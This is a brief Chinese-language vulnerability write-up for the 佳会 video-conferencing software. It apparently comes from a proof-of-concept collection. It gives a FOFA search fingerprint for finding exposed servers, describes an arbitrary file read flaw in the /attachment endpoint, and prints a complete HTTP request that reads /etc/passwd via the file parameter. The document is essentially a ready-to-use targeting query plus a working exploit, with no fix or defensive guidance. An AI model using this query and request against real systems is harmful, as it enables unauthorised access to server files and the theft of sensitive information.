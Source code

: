 **fofa**

body="/nice2meet/m-download.html"

**一、漏洞简述**

佳会视频会议软件，旨在为企业和团队提供高效、便捷的远程会议解决方案。通过该软件，用户可以随时随地参与会议，支持多人同时在线交流，提升沟通效率。其接口/attachment存在任意文件读取漏洞，攻击者可通过该漏洞获取服务器敏感信息。

**二、漏洞检测poc**



```

GET /attachment?file=/etc/passwd HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.36
Connection: close
```